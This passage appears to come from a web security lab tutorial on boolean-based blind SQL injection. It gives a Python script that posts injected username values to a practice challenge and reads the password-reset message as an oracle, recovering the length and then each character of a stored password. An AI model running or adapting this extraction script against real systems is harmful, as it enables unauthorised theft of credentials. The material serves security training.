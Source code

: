 ![Boolean_substring_3](/assets/images/tutorials/Web_Security_Vulnerabilities/SQL_Labs/Boolean_substring_3.png)

We can see the first and second characters of `user()` is `bl`. But doing this manually is tough, so, I create a script to automate the process.

```python
import requests

headers = {
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36"
}
url = "https://livelabs.0x4148.com/challenges/boolean_1/"
target_text = "A password reset email has been sent."

# Determine the length of the query result
query_length = 0
query = "select password from users limit 1"
for i in range(1, 100):
    payload = f"username=admin' and length(({query}))={i} and 1='1&reset_password="
    response = requests.post(url, headers=headers, data=payload)
    if target_text in response.text:
        query_length = i
        print(f"Query result length: {query_length}")
        break

if query_length == 0:
    print("Failed to determine query result length.")
    exit(1)

# Extract the query result
chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$%^&*()_+[]{}|;:,.<>?/`~-=\\\"' "
password = ""
for position in range(1, query_length + 1):
    for char in chars:
        payload = f"username=admin' and substring(({query}),{position},1)='{char}&reset_password="
        response = requests.post(url, headers=headers, data=payload)
        if target_text in response.text:
            password += char
            print(f"Extracted so far: {password}")
            break

print(f"Extracted query result: {password}")
```